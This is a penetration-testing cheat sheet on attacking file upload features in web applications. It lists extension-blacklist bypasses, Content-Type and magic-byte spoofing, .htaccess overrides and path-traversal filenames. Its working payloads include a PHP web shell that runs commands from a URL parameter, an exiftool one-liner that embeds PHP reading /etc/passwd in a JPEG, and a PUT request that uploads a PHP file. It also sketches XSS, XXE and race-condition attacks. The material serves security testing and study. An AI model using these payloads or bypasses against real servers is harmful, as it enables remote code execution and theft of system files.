 # File upload

{% hint style="warning" %}
Servers typically won't execute files unless they have been configured to do so. In some cases the contents of the file may still be served as plain text.
{% endhint %}

## <mark style="color:purple;">Flawed validation of FU</mark>

### <mark style="color:purple;">**Content-Type**</mark>

<details>

<summary>multipart/form-data</summary>

When we upload binary files (like png) the content type multipart/form-data is preferred. The message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header and may also contain their own `Content-Type` header which tells the server the MIME type of the data that was submitted using this input

</details>

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### <mark style="color:purple;">Blacklisted extensions</mark>

* Change extensions

```
.php
.php3
.php4
.php5
.phtml
.phar
```

* Obfuscating file extensions

```
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### <mark style="color:purple;">File content validation</mark>

More secure servers try to verify that the contents of the file actually match what is expected.

#### \[1] Magic number: certain file types may always contain a specific sequence of bytes in their header or footer

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

Payload example:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

***

#### **\[2] Polyglot (on exiftool)**: verify certain intrinsic properties of an image, such as its dimensions.

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass rescritions) but when you open the image it's executed as php script.

## <mark style="color:purple;">Overriding server configuration</mark>

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers -> `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

## <mark style="color:purple;">PUT method</mark>

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## <mark style="color:purple;">**FU + PT**</mark>

Defense: Servers block script execution in the file upload folder. Web servers use the filename field in `multipart/form-data` requests to determine the file's name and location. -> Change filename field combining path traversal

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

{% hint style="success" %}
Tip: pay attention to stripping. In that case, obfuscate with `filename="..%2fexploit.php"`.
{% endhint %}

## <mark style="color:purple;">FU without RCE</mark>

If you can upload HTML files or SVG images, you can use tags to create stored XSS payloads. If the server parses XML-based files like `.doc` or `.xls`, it could be a vector for XXE injection attacks.

## <mark style="color:purple;">FU + Race Conditions</mark>

Some websites upload files to the main filesystem and remove them if they fail validation. This is common in sites using anti-virus software to check for malware. During the short time the file exists on the server, an attacker could potentially execute it.

* Race conditions
* Difficult to detect

### <mark style="color:purple;">Race conditions in URL-based file uploads</mark>

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes.
